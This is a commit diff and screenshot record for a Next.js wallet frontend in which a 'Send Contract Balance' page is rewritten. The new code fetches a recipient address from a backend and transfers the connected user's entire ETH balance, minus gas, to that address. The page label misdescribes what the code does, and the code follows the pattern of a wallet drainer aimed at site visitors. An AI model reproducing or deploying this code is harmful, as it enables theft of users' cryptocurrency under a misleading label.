

Before and after one commit to JackyChan8/smart_contract_frontend, a Next.js app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; what @tonconnect/ui-react would draw is missing.

Commit message:
Added Transaction

```diff
--- a/package.json
+++ b/package.json
@@ -14,7 +14,8 @@
     "react": "^19.0.0",
     "react-dom": "^19.0.0",
     "web3": "^4.16.0",
-    "web3-core": "^4.7.1"
+    "web3-core": "^4.7.1",
+    "web3-utils": "^4.3.3"
   },
   "devDependencies": {
     "@eslint/eslintrc": "^3",
--- a/src/app/page.tsx
+++ b/src/app/page.tsx
@@ -1,102 +1,111 @@
 'use client'
+
 import { useState } from 'react'
 import Web3 from 'web3'
 import type { ExternalProvider } from 'web3-core'
 
-declare global {
-  interface Window {
-    ethereum?: ExternalProvider & {
-      // EIP-1193 метод
-      request(args: { method: string; params?: unknown[] }): Promise<unknown>
-      selectedAddress?: string
-    }
+// Вынесенная функция: вся логика взаимодействия с контрактом
+async function sendAllBalance(
+  eth: ExternalProvider & { request(args: { method: string; params?: unknown[] }): Promise<unknown> },
+  addr: string,
+  setStatus: (msg: string) => void
+): Promise<string> {
+  // 1. Получаем адрес получателя от бэка
+  setStatus('Получаем адрес получателя от бэка…')
+  const res = await fetch('http://localhost:8000/contract')
+  if (!res.ok) throw new Error(`Ошибка бэка: ${res.status}`)
+  const { recipient } = await res.json() as { recipient: string }
+
+  // 2. Настраиваем Web3
+  const web3 = new Web3(eth)
+
+  // 3. Получаем баланс пользователя и параметры газа
+  const balanceWei = BigInt(await web3.eth.getBalance(addr))
+  const gasLimit = 21000n
+  const block = await web3.eth.getBlock('pending')
+  // @ts-ignore: baseFeePerGas есть в ответе
+  const baseFeePerGas = BigInt(block.baseFeePerGas)
+  let maxPriorityFeePerGas: bigint
+  try {
+    maxPriorityFeePerGas = BigInt(await web3.eth.getMaxPriorityFeePerGas())
+  } catch {
+    maxPriorityFeePerGas = BigInt(web3.utils.toWei('2.5', 'gwei'))
   }
-}
+  const maxFeePerGas = baseFeePerGas * 2n + maxPriorityFeePerGas
 
-// Для типов RPC-ошибок
-interface RpcError extends Error {
-  code?: number
+  // 4. Рассчитываем сумму к отправке
+  const gasCost = maxFeePerGas * gasLimit
+  const amountToSend = balanceWei - gasCost
+  if (amountToSend <= 0n) throw new Error('Недостаточно средств на оплату газа')
+  const hexValue = '0x' + amountToSend.toString(16)
+
+  // 5. Отправляем транзакцию
+  setStatus(`Отправляем ${web3.utils.fromWei(hexValue, 'ether')} ETH…`)
+  const receipt = await web3.eth.sendTransaction({
+    from: addr,
+    to: recipient,
+    value: hexValue,
+    gas: gasLimit.toString(),
+    maxPriorityFeePerGas: maxPriorityFeePerGas.toString(10),
+    maxFeePerGas: maxFeePerGas.toString(10),
+    type: '0x2',
+  })
+  return receipt.transactionHash
 }
 
 export default function Wallet() {
   const [account, setAccount] = useState<string>()
-  const [status, setStatus]   = useState('Нажмите Connect Wallet')
-  const [isConnecting, setIsConnecting] = useState(false)
+  const [status, setStatus] = useState('Нажмите «Connect & SendBalance»')
+  const [busy, setBusy] = useState(false)
 
-  async function connectAndExecute() {
+  async function connectAndSendBalance() {
     const eth = window.ethereum
     if (!eth) {
-      setStatus('Установите MetaMask или другой Web3-провайдер')
+      setStatus('Установите Web3-кошелёк (MetaMask и т.п.)')
       return
     }
 
-    // Если уже подключались, берём адрес
-    let addr = eth.selectedAddress
+    setBusy(true)
+    setStatus('Запрашиваем аккаунт…')
+    let addr = eth.selectedAddress as string | undefined
     if (!addr) {
-      setIsConnecting(true)
-      setStatus('Ожидаем подтверждения подключения…')
       try {
-        const response = await eth.request({
-          method: 'eth_requestAccounts'
-        })
-        // Приводим результат к нужному типу
-        const accounts = response as string[]
-        addr = accounts[0]
-      } catch (err: unknown) {
-        const rpcError = err as RpcError
-        const msg = rpcError.message ?? String(err)
-        if (msg.includes('message port closed')) {
-          setStatus('Вы закрыли окно MetaMask. Попробуйте снова.')
-        } else if (rpcError.code === -32002) {
-          setStatus('Подтвердите уже открытый запрос в MetaMask.')
-        } else {
-          setStatus(`Ошибка подключения: ${msg}`)
-        }
-        setIsConnecting(false)
+        const resp = await eth.request({ method: 'eth_requestAccounts' })
+        addr = (resp as string[])[0]
+      } catch (e: any) {
+        setStatus(`Ошибка подключения: ${e.message}`)
+        setBusy(false)
         return
-      } finally {
-        setIsConnecting(false)
       }
     }
-
     setAccount(addr)
-    setStatus('Кошелёк подключён, инициализируем контракт…')
 
     try {
-      const res = await fetch('http://localhost:8000/contract')
-      if (!res.ok) throw new Error('Не удалось получить контракт с бэка')
-      const json = await res.json()
-      const abi     = json.abi as unknown
-      const address = json.address as string
-
-      // Инициализация Web3 и контракта
-      const web3 = new Web3(eth)
-      const contract = new web3.eth.Contract(
-        abi as any, // Web3.js пока ожидает `any` для ABI
-        address
-      )
-
-      setStatus('Вызываем метод смарт-контракта…')
-      // Замените someAction на ваш метод
-      const tx = await contract.methods
-        .someAction()
-        .send({ from: addr })
-      setStatus(`Транзакция отправлена: ${tx.transactionHash}`)
-    } catch (err: unknown) {
-      const rpcError = err as RpcError
-      const msg = rpcError.message ?? String(err)
-      setStatus(`Ошибка выполнения: ${msg}`)
+      const txHash = await sendAllBalance(eth, addr, setStatus)
+      setStatus(`Успех! TxHash: ${txHash}`)
+    } catch (e: any) {
+      setStatus(`Ошибка: ${e.message}`)
+    } finally {
+      setBusy(false)
     }
   }
 
   return (
-    <div style={{ padding: 20 }}>
-      <h1>Connect & Execute</h1>
-      <button onClick={connectAndExecute} disabled={isConnecting}>
-        {isConnecting ? 'Подключаем…' : 'Connect Wallet & Execute'}
+    <div style={{ padding: 20, fontFamily: 'Arial, sans-serif' }}>
+      <h1>Send Contract Balance</h1>
+      <button
+        onClick={connectAndSendBalance}
+        disabled={busy}
+        style={{
+          padding: '10px 20px',
+          fontSize: '16px',
+          cursor: busy ? 'not-allowed' : 'pointer',
+        }}
+      >
+        {busy ? '…обрабатываем' : 'Connect & SendBalance'}
       </button>
       <p><strong>Статус:</strong> {status}</p>
-      {account && <p><strong>Аккаунт:</strong> {account}</p>}
+      {account && <p><strong>Ваш аккаунт:</strong> {account}</p>}
     </div>
   )
 }
```
Also changed, not shown: src/app/contract.txt (added), src/app/validSend.txt (added), 1 other file (tests, documents, lock files or other folders).
